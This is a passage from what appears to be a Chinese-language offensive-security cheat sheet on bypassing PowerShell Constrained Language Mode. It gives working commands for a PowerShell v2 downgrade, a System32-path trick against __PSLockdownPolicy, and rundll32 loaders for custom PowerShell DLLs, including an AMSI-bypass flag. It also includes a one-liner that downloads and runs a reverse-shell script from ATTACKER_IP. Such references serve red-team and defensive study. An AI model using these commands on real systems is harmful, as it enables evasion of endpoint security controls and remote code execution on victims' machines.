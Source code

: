 ### 受限语言模式

检查我们是否处于受限模式：`$ExecutionContext.SessionState.LanguageMode`

* 使用旧版 Powershell 进行绕过。Powershell v2 不支持 CLM。

  ```ps1
  powershell.exe -version 2
  powershell.exe -version 2 -ExecutionPolicy bypass
  powershell.exe -v 2 -ep bypass -command "IEX (New-Object Net.WebClient).DownloadString('http://ATTACKER_IP/rev.ps1')"
  ```

* 当使用 `__PSLockDownPolicy` 时进行绕过。只需在路径中的某处放置 "System32"。

  ```ps1
  # 从环境变量中启用 CLM
  [Environment]::SetEnvironmentVariable('__PSLockdownPolicy', '4', 'Machine')
  Get-ChildItem -Path Env:
  
  # 创建一个包含你的 "恶意" powershell 命令的 check-mode.ps1
  $mode = $ExecutionContext.SessionState.LanguageMode
  write-host $mode
  
  # 简单的绕过，在 System32 文件夹内执行
  PS C:\> C:\Users\Public\check-mode.ps1
  ConstrainedLanguage
  
  PS C:\> C:\Users\Public\System32\check-mode.ps1
  FullLanguagge
  ```

* 使用 COM 进行绕过：[xpn/COM_to_registry.ps1](https://gist.githubusercontent.com/xpn/1e9e879fab3e9ebfd236f5e4fdcfb7f1/raw/ceb39a9d5b0402f98e8d3d9723b0bd19a84ac23e/COM_to_registry.ps1)

* 使用你自己的 Powershell DLL 进行绕过：[p3nt4/PowerShdll](https://github.com/p3nt4/PowerShdll) & [iomoath/PowerShx](https://github.com/iomoath/PowerShx)

  ```ps1
  rundll32 PowerShdll,main <script>
  rundll32 PowerShdll,main -h      显示此消息
  rundll32 PowerShdll,main -f <path>       运行作为参数传递的脚本
  rundll32 PowerShdll,main -w      在新窗口中启动交互式控制台（默认）
  rundll32 PowerShdll,main -i      在此控制台中启动交互式控制台
  
  rundll32 PowerShx.dll,main -e                           <要运行的 PS 脚本>
  rundll32 PowerShx.dll,main -f <path>                    运行作为参数传递的脚本
  rundll32 PowerShx.dll,main -f <path> -c <PS Cmdlet>     加载脚本并运行 PS cmdlet
  rundll32 PowerShx.dll,main -w                           在新窗口中启动交互式控制台
  rundll32 PowerShx.dll,main -i                           启动交互式控制台
  rundll32 PowerShx.dll,main -s                           尝试绕过 AMSI
  rundll32 PowerShx.dll,main -v                           将执行输出打印到控制台
  ```

### 脚本块日志记录
